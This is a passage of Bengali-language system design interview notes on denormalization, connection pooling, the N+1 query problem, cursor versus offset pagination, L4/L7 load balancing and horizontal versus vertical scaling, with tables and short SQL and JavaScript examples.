- **Denormalization (ডিনরমালাইজেশন):** হলো রিড পারফরম্যান্স চরম লেভেলে স্পিড-আপ করার জন্য পরিকল্পিতভাবে টেবিলে ডুপ্লিকেট বা রিডাণ্ডেন্ট ডাটা রি-ইনসার্ট করা অথবা একাধিক টেবিল জয়েন করার ঝামেলা এড়াতে ডাটা মার্জ করা।

### DB Schema Approach: Normalized vs Denormalized

```text
Normalized Schema (Multiple Joins needed to read)
┌─────────────────┐       ┌─────────────────┐       ┌─────────────────┐
│     Users       │       │     Orders      │       │   Order_Items   │
├────┬────────────┤       ├────┬────────────┤       ├────┬────────────┤
│ ID │ Name       │◄─────┐│ ID │ User_ID    │◄─────┐│ ID │ Order_ID   │
└────┴────────────┘      │└────┴────────────┘      │└────┴────────────┘
                         └─────────────────────────┘

Denormalized Schema (Flat table with JSONB - Single query read)
┌─────────────────────────────────────────────────────────────────────┐
│                       User_Orders_Details                           │
├────┬────────────┬───────────────────────────────────────────────────┤
│ ID │ User_Name  │ Order_Items_JSONB (Embedded payload)              │
└────┴────────────┴───────────────────────────────────────────────────┘
```

### Normalization vs Denormalization Trade-offs

| বৈশিষ্ট্য | Normalization (3NF) | Denormalization |
| :--- | :--- | :--- |
| **ডাটা ডুপ্লিকেশন** | মিনিমাম (প্রতিটি ডাটা শুধুমাত্র এক জায়গায় থাকে)। | হাই (পারফরম্যান্সের জন্য একই ডাটা একাধিক কলামে থাকতে পারে)। |
| **Write Performance** | **Fast:** ডাটা মাত্র এক জায়গায় আপডেট করলেই হয়। নো রাইট অ্যানোমালি। | **Slow:** ডাটা একাধিক টেবিলে আপডেট করতে হয় (অ্যাপ লেভেলে বা ট্রিগার দিয়ে)। |
| **Read Performance** | **Slow:** মাল্টিপল টেবিল রিড করতে একাধিক `JOIN` কুয়েরি ব্যবহার করতে হয়। | **Fast:** কোনো জয়েন ছাড়া সিঙ্গেল ফ্ল্যাট টেবিল থেকে ওয়ান-শটে ডাটা রিড করা যায়। |
| **Storage Cost** | কম (মেমোরি সেভ হয়)। | তুলনামূলক বেশি (ডুপ্লিকেট ডাটার কারণে)। |

### Senior Insight

- **Postgres JSONB as Denormalized Cache:** মডার্ন PostgreSQL সিস্টেমে রিলেশনাল মডেলের ভেতরেই ডিনরমালাইজেশনের চমৎকার সুবিধা পাওয়া যায় `JSONB` এর মাধ্যমে। আপনি কোর ইউজার বা প্রোডাক্ট ডাটা নরমালাইজড টেবিলে রাখলেও তাদের জটিল মেটাডেটা বা কনফিগারেশন জয়েন এড়াতে একটি JSONB কলামে রাখতে পারেন।
- **Sync Strategy:** ডিনরমালাইজেশন ব্যবহার করলে ডাটা ইন-সিঙ্ক রাখা অত্যন্ত কঠিন। উদাহরণস্বরূপ, যদি অর্ডারের ভেতর ইউজারের নাম ডিনরমালাইজড করে রাখা হয় এবং ইউজার পরবর্তীতে তার নাম প্রোফাইল থেকে চেঞ্জ করে, তবে অর্ডারের ভেতরের নামও সিঙ্ক করতে হবে। এটি ব্যাকগ্রাউন্ড ইভেন্ট বা ডাটাবেস ট্রিগার দিয়ে অ্যাসিনক্রোনাসলি সিঙ্ক করা উচিত।

### Common Mistakes

- **Over-normalizing OLAP (Analytics) Databases:** ডাটা অ্যানালিটিক্স বা ড্যাশবোর্ড তৈরির ডাটাবেস (Data Warehouses) যদি বেশি নরমালাইজড করা হয়, তবে লাখ লাখ রো-এর ওপর ২০টি টেবিল জয়েন করতে গিয়ে ড্যাশবোর্ড লোড হতে কয়েক মিনিট সময় লেগে যাবে। অ্যানালিটিক্সে ডিনরমালাইজড স্টার স্কিমা (Star Schema) ব্যবহার করতে হবে।
- **Denormalizing without a Sync Plan:** কোনো কলামের ডাটা ডুপ্লিকেট করার পর ওল্ড ডাটা কীভাবে আপডেট বা সিঙ্ক হবে তা ডিজাইন না করা, যার ফলে সিস্টেমে ডেটা করাপশন ঘটে।

### Interview Angle

> "নরমালাইজেশন ডাটাবেসে ডেটা ডুপ্লিকেশন রোধ করে এবং রাইট পারফরম্যান্স অপটিমাইজ করে ডেটার নিখুঁত সততা (Data Integrity) নিশ্চিত করে। অপরদিকে ডিনরমালাইজেশন রিড অপারেশনের সময় জটিল JOIN এড়াতে ইচ্ছাকৃতভাবে ডুপ্লিকেট ডাটা মেইনটেইন করে রিড স্পিড বাড়ায়। প্রোডাকশন সিস্টেমে আমরা সাধারণত transactional ডাটা নরমালাইজড রাখি এবং ড্যাশবোর্ড বা হাই-স্পিড ভিউ লেয়ারে ডিনরমালাইজড ভিউ/ক্যাশিং ব্যবহার করি।"


## 16. Connection Pooling

### Core Idea

ডাটাবেস কানেকশন তৈরি করা একটি কম্পিউটেশনালি অত্যন্ত এক্সপেনসিভ অপারেশন (TCP Handshake, TLS Setup, DB Auth, Process Allocation). **Connection Pooling** হলো এমন একটি মেকানিজম যেখানে আগে থেকেই কিছু ডাটাবেস কানেকশন ওপেন করে একটি পুলে (Pool) রেডি রাখা হয়। অ্যাপ্লিকেশন যখনই কুয়েরি করতে চায়, সে পুল থেকে একটি ফ্রি কানেকশন ধার নেয় এবং কুয়েরি শেষে পুনরায় পুলে ফেরত দেয়।

### Connection Pool-এর লাইফসাইকেল



### Pools Settings (গুরুত্বপূর্ণ সেটিংস)

- **Max Pool Size:** পুলে সর্বোচ্চ কতগুলো কানেকশন থাকতে পারবে।
- **Min Idle Connections:** পুলে অলস অবস্থায় মিনিমাম কতটি কানেকশন সর্বদা ওপেন থাকবে।
- **Connection Timeout:** পুল থেকে ফ্রি কানেকশন পাওয়ার জন্য সর্বোচ্চ কত মিলি-সেকেন্ড ওয়েট করা হবে (এরপর টাইমআউট এরর দিবে)।
- **Max Lifetime:** একটি কানেকশন সর্বোচ্চ কতক্ষণ পুলে বেঁচে থাকবে (মেমোরি লিক বা স্টেল কানেকশন এড়াতে নির্দিষ্ট সময় পর কানেকশন রিক্রিয়েট করা হয়)।

### Senior Insight (Calculating Pool Size)

অনেকে মনে করেন Max Pool Size অনেক বাড়িয়ে দিলেই ডাটাবেস ফাস্ট হবে, কিন্তু এটি সম্পূর্ণ ভুল। ডাটাবেসের সোর্স লিমিটেড (CPU Cores & RAM). অতিরিক্ত কানেকশন দিলে ডাটাবেসের থ্রেড সুইচিং ওভারহেড বা Context Switching বেড়ে গিয়ে ডাটাবেস ক্র্যাশ বা স্লো হতে পারে।

**Pool Size ফর্মুলা (Postgres/MySQL-এর জন্য জনপ্রিয়):**
$$\text{Connections} = (\text{CPU Cores} \times 2) + \text{Spindle Count (Hard disks)}$$
যেমন: একটি ৮-কোর ডিবি সার্ভারের জন্য ১৫-২০টি কানেকশনই সর্বোচ্চ পারফরম্যান্স দিতে পারে!

ডিস্ট্রিবিউটেড মাইক্রোসার্ভিসে যদি ২০টি নোড ইন্সট্যান্স থাকে এবং প্রতি নোডের পুল সাইজ ৫০ হয়, তবে মোট কানেকশন হবে:
$$20 \times 50 = 1000 \text{ DB Connections}$$
যদি ডাটাবেসের ক্যাপাসিটি ৫০০ হয়, তবে প্রোডাকশনে আউটগ্রেজ ঘটবে। এই ক্ষেত্রে সেন্ট্রাল প্রক্সি যেমন **PgBouncer** (Postgres-এর জন্য) অথবা **Amazon RDS Proxy** ব্যবহার করতে হবে।

### Common Mistakes

- **Not returning connection to the pool:** এপিআই-এর কোনো এরর ব্লকে যদি `connection.close()` বা রিটার্ন লজিক না থাকে, তবে কানেকশন লিক (Connection Leak) হবে এবং কিছুক্ষণের মধ্যে পুল খালি হয়ে অ্যাপ ক্র্যাশ করবে।
- **Long-running transactions holding connections:** ট্রানজেকশনের ভেতরে ভারী এপিআই বা এক্সটার্নাল এপিআই কল করা। এতে কানেকশনটি পুলে ফেরত না গিয়ে দীর্ঘক্ষণ ব্লকড থাকে, যা বাকি ইউজারদের ব্লক করে দেয়।

### Interview Angle

> "কানেকশন পুলিং কানেকশন ক্রিয়েশনের ওভারহেড কমিয়ে এপিআই লেটেন্সি নাটকীয়ভাবে কমায়। ডিস্ট্রিবিউটেড এবং সার্ভারলেস সিস্টেমে কানেকশন কাউন্ট অনেক হাই হতে পারে, তাই সেন্ট্রাল কানেকশন প্রক্সি (যেমন PgBouncer বা RDS Proxy) ব্যবহার করা বেস্ট প্র্যাকটিস। এছাড়া কানেকশন লিক প্রতিরোধে ট্রাই-ক্যাচ-ফাইনালি ব্লকে কানেকশন রিলিজ নিশ্চিত করতে হবে।"


## 17. N+1 Query Problem

### Core Idea

**N+1 Query Problem:** সাধারণত ORM (Object-Relational Mapping) বা GraphQL ব্যবহারে দেখা যায়। এটি ঘটে যখন অ্যাপ্লিকেশন ১টি প্রধান রিকুয়েস্ট বা কুয়েরির মাধ্যমে একটি লিস্ট ফেচ করে (1 query) এবং তারপর সেই লিস্টের প্রতিটি রেকর্ড বা আইটেমের রিলেটেড ডেটা বা চাইল্ড ডেটা নিয়ে আসতে লুপের ভেতর আলাদা কুয়েরি রান করে (N queries). এর ফলে মোট কুয়েরির সংখ্যা দাঁড়ায় $N+1$, যা ডাটাবেস পারফরম্যান্স ধ্বংস করে দেয়।

### N+1 বনাম অপ্টিমাইজড জয়েন কুয়েরি



### N+1 কুয়েরি এরর কোড উদাহরণ (ORM লুপ)

ধরা যাক, আমরা ডাটাবেস থেকে ১০ জন ইউজারের ডিটেইলস এবং তাদের অর্ডার হিস্ট্রি ফেচ করব:
```javascript
// ভুল ইমপ্লিমেন্টেশন (N+1)
const users = await db.query("SELECT * FROM users LIMIT 10"); // 1 query
for (let user of users) {
    user.orders = await db.query(`SELECT * FROM orders WHERE user_id = ${user.id}`); // N queries
}
// মোট কুয়েরি: 1 + 10 = 11 queries!
```

### সমাধানসমূহ

#### ১. SQL JOIN (১টি কুয়েরি)
```sql
SELECT users.*, orders.* FROM users 
LEFT JOIN orders ON users.id = orders.user_id 
WHERE users.id IN (...);
```

#### ২. Eager Loading (ORM Solutions)
আধুনিক ORM-গুলোতে ইগার লোডিং ফিচারের মাধ্যমে ব্যাকগ্রাউন্ডে জয়েন বা ব্যাচ কুয়েরি অটোমেটিক জেনারেট করা হয়:
```javascript
// Sequelize / TypeORM Eager Loading
const users = await User.findAll({ include: [Order] }); // ORM generates efficient queries
```

#### ৩. Batch Query (WHERE IN)
১টি কুয়েরি দিয়ে সব ইউজার আনা এবং তাদের আইডি সংগ্রহ করে ২য় কুয়েরিতে `IN` অপারেটর দিয়ে সব অর্ডার একবারে নিয়ে এসে মেমোরিতে ম্যাপ করা (মোট ২টি কুয়েরি):
```sql
-- 1. SELECT * FROM users LIMIT 10;
-- 2. SELECT * FROM orders WHERE user_id IN (1, 2, 3, 4, 5, 6, 7, 8, 9, 10);
```

#### ৪. GraphQL DataLoader
গ্রাফকিউএল রিসলভারগুলোতে N+1 সলভ করতে **DataLoader** ব্যাচিং এবং ক্যাশিং ট্রিক ব্যবহার করে রিকোয়েস্ট মার্জ করে দেয়।

### Senior Insight

N+1 প্রবলেম লোকাল ডেভেলপমেন্ট এনভায়রনমেন্টে খুব ছোট ডেটাসেট নিয়ে কাজ করার সময় সাধারণত টের পাওয়া যায় না। কিন্তু প্রোডাকশনে যখন হাজার হাজার রিয়াল ডেটা চলে আসে, তখন এপিআই লেটেন্সি এক লাফে কয়েক মিলি-সেকেন্ড থেকে কয়েক সেকেন্ডে গিয়ে ঠেকে এবং ডাটাবেস CPU ১০০% লোড হয়ে যায়।
- এটি ডিটেক্ট করার জন্য ডেভেলপমেন্ট এনভায়রনমেন্টে **Query Logging** এনাবল রাখতে হবে এবং প্রোডাকশনে **APM (Datadog/NewRelic)** বা SQL Slow Queries ট্র্যাকিং মেকানিজম মনিটর করতে হবে।

### Common Mistakes

- **Accessing ORM relations inside loops:** ORM লুপের ভেতরে রিলেশনশিপ অ্যাক্সেস বা প্রোপার্টি কল করলে ORM নিজে ব্যাকগ্রাউন্ডে কুয়েরি ছুড়বে, যা N+1 এর জন্ম দেয়।
- **Ignoring pagination with large joins:** N+1 এড়াতে বড় জয়েন কুয়েরি মারার সময় যদি পেজিনেশন না থাকে, তবে লাখ লাখ রেকর্ড একসাথে মেমোরিতে চলে এসে অ্যাপ্লিকেশন নোড ক্র্যাশ (Out of Memory) ঘটাতে পারে।

### Interview Angle

> "N+1 কুয়েরি প্রবলেম ঘটে যখন একটি প্যারেন্ট কুয়েরির পর লুপের ভেতর প্রতিটি চাইল্ডের জন্য আলাদা ডাটাবেস কুয়েরি হয়। এটি মূলত SQL JOIN, ORM Eager Loading, ব্যাচ কুয়েরি (WHERE IN) অথবা GraphQL-এর ক্ষেত্রে DataLoader প্যাটার্ন ব্যবহার করে সলভ করা যায়। আমরা সিস্টেমে কুয়েরি লগিং এবং এপিএম ট্রেসিং বসিয়ে প্রোডাকশনে N+1 ডিটেক্ট করি।"


## 18. Pagination (Offset vs Cursor)

### Core Idea

- **Offset Pagination:** এটি ডাটাবেসের `LIMIT` এবং `OFFSET` কমান্ড ব্যবহার করে নির্দিষ্ট পরিমাণ রেকর্ড স্কিপ বা বাদ দিয়ে পেজ তৈরি করে।
- **Cursor Pagination (Keyset Pagination):** এটি একটি নির্দিষ্ট ইনডেক্সড কী (যেমন `id` বা `created_at`) কে মার্কার বা কার্সর হিসেবে পয়েন্ট করে `WHERE` ক্লজের মাধ্যমে পরবর্তী ডেটা রো ফেচ করে।

### How Pagination Works Under the Hood



### Offset vs Cursor Trade-offs Table

| বৈশিষ্ট্য | Offset Pagination (`LIMIT 10 OFFSET 100`) | Cursor Pagination (`WHERE id < 100 LIMIT 10`) |
| :--- | :--- | :--- |
| **পারফরম্যান্স** | গভীর পেজের জন্য **অত্যন্ত স্লো** ($O(N)$ ডাটা স্ক্যান)। | গভীর পেজের জন্য **অত্যন্ত ফাস্ট** ($O(\log N)$ ইনডেক্স জাম্প)। |
| **ডাইনামিক ডাটা স্ট্যাবিলিটি** | **অস্থির:** পেজের মাঝে নতুন ডাটা রাইট বা ডিলিট হলে ডুপ্লিকেট বা মিসিং রেকর্ড দেখায়। | **স্থির:** নতুন ডাটা ঢুকলেও ডুপ্লিকেট দেখায় না। ফিডের জন্য পারফেক্ট। |
| **Random Page Jump** | **সহজ:** সরাসরি পেজ ৫ বা ১০-এ জাম্প করা যায়। | **কঠিন:** আগের পেজের লাস্ট কার্সর আইডি জানা ছাড়া সরাসরি জাম্প অসম্ভব। |
| **ইউজ কেস** | এডমিন প্যানেল, সার্চ ফিল্টার যেখানে র্যান্ডম জাম্প দরকার। | সোশ্যাল মিডিয়া নিউজ ফিড, চ্যাট হিস্ট্রি, ইনফিনিট স্ক্রোল। |

### Deterministic Cursor Design

কার্সর ব্যবহার করার সময় অবশ্যই অর্ডারড কলাম ব্যবহার করতে হবে। যদি ডুপ্লিকেট কলাম (যেমন `created_at`) কার্সর হিসেবে ব্যবহার করা হয়, তবে একই মিলি-সেকেন্ডে একাধিক রেকর্ড ঢুকলে ডাটা স্কিপ হয়ে যেতে পারে।
**সমাধান (Tie-breaker ID):**
```sql
SELECT * FROM posts
WHERE (created_at, id) < ('2026-05-26 12:00:00', 450)
ORDER BY created_at DESC, id DESC
LIMIT 10;
```

### Senior Insight

- **Do Not Leak Raw DB IDs as Cursors:** এপিআই রেসপন্সে কার্সর হিসেবে সরাসরি ডাটাবেসের প্রাইমারি কী (যেমন `id: 450`) ক্লায়েন্টকে পাঠানো সিকিউরিটি রুলসের বাইরে। এটি ডিবির সাইজ বা সিকোয়েন্স হ্যাকারদের কাছে এক্সপোজ করে।
- **Best Practice:** কার্সর অবজেক্টটিকে Base64 বা এনক্রিপ্ট করে ক্লায়েন্টকে পাঠানো উচিত:
  ```javascript
  const nextCursor = Buffer.from(JSON.stringify({ created_at: post.created_at, id: post.id })).toString('base64');
  // Response payload: { data: [...], nextCursor: "eyJjcmVhdGVkX2F0IjoiMjAyNi0wNS0yNlQxMjowMDowMFoiLCJpZCI6NDUwfQ==" }
  ```

### Common Mistakes

- **Using Offset pagination for millions of rows:** এটি ডাটাবেসের ডিস্ক রিড এবং সিপিইউ ১০০% বাড়িয়ে সম্পূর্ণ সার্ভিস ডাউন করে দিতে পারে।
- **Ignoring Indexes:** কার্সর হিসেবে যে কলামটি ব্যবহার করছেন তা ডাটাবেস লেভেলে ইণ্ডেক্স (Index) না করা। ইণ্ডেক্স না থাকলে কার্সর ও অফসেট উভয়ই সমান স্লো কাজ করবে।

### Interview Angle

> "অফসেট পেজিনেশন ডেভেলপ করা সহজ এবং র্যান্ডম পেজ জাম্প সাপোর্ট করে, তবে বড় ডেটাসেটে অফসেট স্ক্যান ওভারহেড এবং ডাইনামিক ডাটা ডুপ্লিকেশনের সমস্যা তৈরি করে। অপরদিকে কার্সর পেজিনেশন ডিরেক্ট ইনডেক্স কুয়েরি ব্যবহার করে গভীর পেজেও ধ্রুবক গতি ($O(\log N)$) বজায় রাখে এবং ইনফিনিট স্ক্রোলের জন্য এটি অত্যন্ত নির্ভরযোগ্য। আমরা প্রোডাকশনে কার্সরকে এনকোড করে পাস করি এবং ইণ্ডেক্স নিশ্চিত করি।"


## 19. Load Balancing (L4 vs L7)

### Core Idea

**Load Balancer (লোড ব্যালেন্সার):** হলো সিস্টেমে আগত ইনকামিং ট্রাফিকের জন্য ট্রাফিক পুলিশ। এটি ইউজারের রিকোয়েস্টগুলো গ্রহণ করে আমাদের ব্যাকএন্ড সার্ভার পুলের মাঝে সমানভাবে ডিস্ট্রিবিউট বা বন্টন করে দেয় যাতে কোনো নির্দিষ্ট সার্ভার ওভারলোড না হয়।

### OSI Layers: Layer 4 vs Layer 7

```text
[ OSI Layers ]
┌─────────────────────────┐
│ Layer 7: Application    │ <-- Handles HTTP/HTTPS, Cookies, Headers, Path, Payload (ALB, Nginx)
├─────────────────────────┤
│ Layer 6: Presentation   │
├─────────────────────────┤
│ Layer 5: Session        │
├─────────────────────────┤
│ Layer 4: Transport      │ <-- Handles TCP/UDP, IP, Port. No payload inspection (NLB, HAProxy)
└─────────────────────────┘
```

### L4 (Layer 4) vs L7 (Layer 7) Load Balancing



### Layer 4 vs Layer 7 Comparison Table

| বৈশিষ্ট্য | Layer 4 Load Balancing (Transport) | Layer 7 Load Balancing (Application) |
| :--- | :--- | :--- |
| **OSI Layer** | Layer 4 (TCP/UDP, Port levels). | Layer 7 (HTTP, HTTPS, FTP, WebSocket). |
| **Data Visibility** | ডেটা প্যাকেটের ভেতরে কী বডি বা হেডার আছে তা দেখতে পারে না। | বডি পে-লোড, কুকি, হেডার, কুয়েরি প্যারামিটার রিড করতে পারে। |
| **Performance** | **এক্সট্রিম ফাস্ট:** প্রসেসিং খুব কম হওয়ায় লেটেন্সি প্রায় শূন্য। | **মাঝারি:** ডেটা পার্স ও ডিক্রিপ্ট করতে এক্সট্রা সিপিইউ/র্যাম ওভারহেড লাগে। |
| **TLS Termination** | করতে পারে না। শুধুমাত্র প্যাকেট পাস করে। | করতে পারে (SSL/TLS decryption এবং Nginx/ALB-তে termination). |
| **স্মার্ট রাউটিং** | অসম্ভব। ডিরেক্ট আইপি-পোর্ট ম্যাপিং। | অত্যন্ত সহজ (Path-based, header-based, and cookie-based sticky routing). |
| **উদাহরণ** | AWS Network Load Balancer (NLB), HAProxy (L4 Mode). | AWS Application Load Balancer (ALB), Nginx, Envoy. |

### Senior Insight

- **L4 + L7 Hybrid Architecture:** লার্জ স্কেল হাই-পারফরম্যান্স সিস্টেমে এ দুটিকে কম্বাইন করে হাইব্রিড আর্কিটেকচার ডিজাইন করা হয়। সর্বপ্রথমে একটি **L4 Load Balancer (NLB)** রাখা হয় যা ট্রিলিয়ন প্যাকেট লাইটস্পিডে রিসিভ করে একাধিক **L7 Load Balancers (Nginx cluster)**-এর মাঝে ডিস্ট্রিবিউট করে। এরপর L7 লোড ব্যালেন্সারগুলো SSL Termination এবং এপিআই রাউটিং হ্যান্ডেল করে কোর মাইক্রোসার্ভিসগুলোতে পাঠায়।
- **Sticky Sessions:** L7 লোড ব্যালেন্সার কুকি ব্যবহার করে ক্লায়েন্ট সেশন লক বা স্টিকি সেশন অন করতে পারে যাতে ইউজারের পর পর রিকোয়েস্টগুলো সবসময় একই নির্দিষ্ট কন্টেইনার সার্ভারে হিট করে (এটি স্টেটফুল অ্যাপের সেশন ক্যাশে সাহায্য করে, তবে স্কেলিং হ্যাম্পার করে)।

### Common Mistakes

- **Using L7 ALB for Raw TCP/WebSocket traffic without optimization:** এল-৭ লোড ব্যালেন্সার দিয়ে অতিরিক্ত রিকোয়েস্ট পার্সিং করতে গেলে রিসোর্স হাঙ্গ্রি হতে পারে। লাইভ মাল্টিপ্লেয়ার গেম বা আইওটি কানেকশনের ক্ষেত্রে এল-৪ রুট করা উচিত।
- **Assuming Load Balancer solves internal microservices connection:** মাইক্রোসার্ভিসের নিজেদের ভেতরের কমিউনিকেশনে ক্লায়েন্ট-সাইড লোড ব্যালেন্সিং (যেমন gRPC-তে) ব্যবহার করা বেশি পারফেক্ট, সেন্ট্রাল ব্যালেন্সারে প্রতিবার হিট করা লেটেন্সি বাড়ায়।

### Interview Angle

> "L4 লোড ব্যালেন্সার শুধুমাত্র TCP/UDP এবং IP প্রোটোকল স্তরে প্যাকেটের কনটেন্ট রিড না করেই সুপার-ফাস্ট রাউটিং করে। অপরদিকে L7 লোড ব্যালেন্সার HTTP/HTTPS প্রোটোকল স্তরের পে-লোড, কুকি এবং পাথ পার্স করে অত্যন্ত স্মার্ট এবং ডাইনামিক রাউটিং সিদ্ধান্ত নিতে পারে। প্রোডাকশনে আমরা ইনকামিং গেটওয়েতে পারফরম্যান্সের জন্য L4 এবং মাইক্রোসার্ভিস রাউটিং ও SSL Termination-এর জন্য L7 ব্যবহার করি।"


## 20. Horizontal vs Vertical Scaling

### Core Idea

- **Vertical Scaling (Scale Up):** এটি হলো বর্তমান সিঙ্গেল সার্ভারটির পারফরম্যান্স শক্তিশালী করা। অর্থাৎ একই মেশিনে অতিরিক্ত রিসোর্স (যেমন CPU, RAM, SSD) যোগ করা।
- **Horizontal Scaling (Scale Out):** এটি হলো সার্ভার পুলে নতুন নতুন ফিজিক্যাল বা ভার্চুয়াল সার্ভার মেশিন যুক্ত করা এবং একটি লোড ব্যালেন্সারের মাধ্যমে ট্রাফিক ডিস্ট্রিবিউট করা।

```text
       [ Vertical Scaling (Scale Up) ]             [ Horizontal Scaling (Scale Out) ]
             ┌─────────────┐                            ┌───┐ ┌───┐ ┌───┐ ┌───┐
             │  CPU: 64C   │                            │ 2C│ │ 2C│ │ 2C│ │ 2C│
             │  RAM: 256GB │                            │ 8G│ │ 8G│ │ 8G│ │ 8G│
             │  SSD: 2TB   │                            └───┘ └───┘ └───┘ └───┘
             └─────────────┘                        (Multiple Nodes behind Load Balancer)
          (Single Heavy Server)
```

### Scale Up vs Scale Out Comparison Table

| বৈশিষ্ট্য | Vertical Scaling (Scale Up) | Horizontal Scaling (Scale Out) |
| :--- | :--- | :--- |
| **আর্কিটেকচার জটিলতা** | **একেবারে শূন্য:** কোডে বা আর্কিটেকচারে কোনো পরিবর্তন ছাড়াই সরাসরি কাজ করে। | **উচ্চ:** শেয়ারড সেশন, স্টেটলেস আর্কিটেকচার ও শেয়ারড ডিস্ক ম্যানেজ করতে হয়। |
| **সীমা (Limits)** | **সীমাবদ্ধ:** একটি মেশিনে সর্বোচ্চ কত র্যাম/সিপিইউ দেওয়া যাবে তার হার্ডওয়্যার লিমিট আছে। | **অসীম:** তাত্ত্বিকভাবে আপনি হাজার হাজার নোড বা কন্টেইনার অ্যাড করতে পারেন। |
| **সিঙ্গেল পয়েন্ট অব ফেইলিউর** | **হ্যাঁ:** ওই একক সার্ভারটি ক্র্যাশ করলে সম্পূর্ণ সিস্টেম ডাউন হয়ে যাবে (SPOF). | **না:** ১ বা ২টি নোড ডাউন হলেও বাকি নোডগুলো ট্রাফিক হ্যান্ডেল করতে পারে (High Availability). |
| **কস্ট (Cost)** | অতি উচ্চমানের হার্ডওয়্যার পার্টস খুবই ব্যয়বহুল এবং নন-লিনিয়ার প্রাইজ। | লিনিয়ার প্রাইজ। সাধারণ কম-দামী ক্লাউড ভিএম ব্যবহার করা যায়। |
| **ডাটাবেস স্কেলিং** | আরডিবিএমএস (Postgres/MySQL)-এর জন্য ডিফল্ট ও সহজ পছন্দ। | নো-এসকিউএল বা ডিস্ট্রিবিউটেড ডাটাবেসে অত্যন্ত সহজ, আরডিবিএমএস-এ জটিল। |

### Senior Insight

- **Keep the Application Stateless:** অনুভূমিক স্কেলিং (Horizontal Scaling) সফল করার এক নম্বর ও প্রধান শর্ত হলো আপনার অ্যাপ্লিকেশন লেয়ারকে সম্পূর্ণ **Stateless** করতে হবে। অর্থাৎ অ্যাপ্লিকেশন মেমোরিতে কোনো সেশন বা ফাইল আপলোড করা যাবে না।
  - সেশনগুলো Redis-এর মতো সেন্ট্রাল সেশন স্টোরে রাখতে হবে।
  - ইউজার ফাইল আপলোডগুলো লোকাল কন্টেইনার ফোল্ডারে না রেখে AWS S3-এর মতো শেয়ারড অবজেক্ট স্টোরেজে পাঠাতে হবে।
